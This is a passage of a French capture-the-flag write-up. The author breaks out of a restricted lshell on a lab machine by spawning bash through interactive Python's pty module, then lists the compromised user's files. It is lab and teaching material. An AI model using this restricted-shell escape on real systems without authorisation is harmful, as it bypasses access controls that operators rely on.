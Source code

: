 Avant d'aller plus loin j'ai fouillé du côté du serveur web mais les entrées du fichier *robots.txt* étaient toutes invalides et une énumération via *feroxbuster* n'a rien remonté non plus.  

Une fois connecté via SSH on est averti que l'on est dans un bash restreint :  

```plain
*You are in a limited shell.
Type '?' or 'help' to get the list of allowed commands
squiddie:~$ ?
cd  clear  exit  help  history  lpath  ls  lsudo  pwd  python  whoami
```

Le comportement est similaire à sudo dans le sens où la whitelist semble attendre des commandes exactes :  

```plain
squiddie:~$ python -c 'import pty; pty.spawn("bash")'
*** forbidden syntax -> "python -c 'import pty; pty.spawn("bash")'"
*** You have 1 warning(s) left, before getting kicked out.
This incident has been reported.
```

On va donc utiliser l'interpréteur Python de façon interactive pour s'échapper du rbash :  

```plain
squiddie:~$ python
Python 2.7.15rc1 (default, Apr 15 2018, 21:51:34) 
[GCC 7.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import pty; pty.spawn("bash")
squiddie@jetty:~$ id
uid=1001(squiddie) gid=1001(squiddie) groups=1001(squiddie)
```

Je relève les fichiers suivants dans le dossier de l'utilisateur :  

```plain
./Desktop:
total 16
drwxr-xr-x  2 squiddie squiddie 4096 Nov 11  2018 .
drwxr-xr-x 14 squiddie squiddie 4096 Oct 27 03:32 ..
-rw-rw-r--  1 squiddie squiddie  112 Oct 22  2018 To_Michael.txt
-rw-r--r--  1 squiddie squiddie   33 Nov 11  2018 user.txt

./Documents:
total 900
drwxr-xr-x  3 squiddie squiddie   4096 Oct 22  2018 .
drwxr-xr-x 14 squiddie squiddie   4096 Oct 27 03:32 ..
-rw-r--r--  1 squiddie squiddie  28307 Oct  9  2018 laboral_calendar_2018.pdf
-rw-r--r--  1 squiddie squiddie 880236 Oct 22  2018 ticket_prices.PNG
drwxr-xr-x  2 squiddie squiddie   4096 Oct 22  2018 Tickets

./Documents/Tickets:
total 196
drwxr-xr-x 2 squiddie squiddie  4096 Oct 22  2018 .
drwxr-xr-x 3 squiddie squiddie  4096 Oct 22  2018 ..
-rw-r--r-- 1 squiddie squiddie 45676 Oct  7  2018 adult_ticket_f.PDF
-rw-r--r-- 1 squiddie squiddie 45745 Oct  7  2018 adult_ticket.PDF
-rw-r--r-- 1 squiddie squiddie 45888 Oct  7  2018 child_ticket_f.PDF
-rw-r--r-- 1 squiddie squiddie 44354 Oct  7  2018 child_ticket.PDF
```
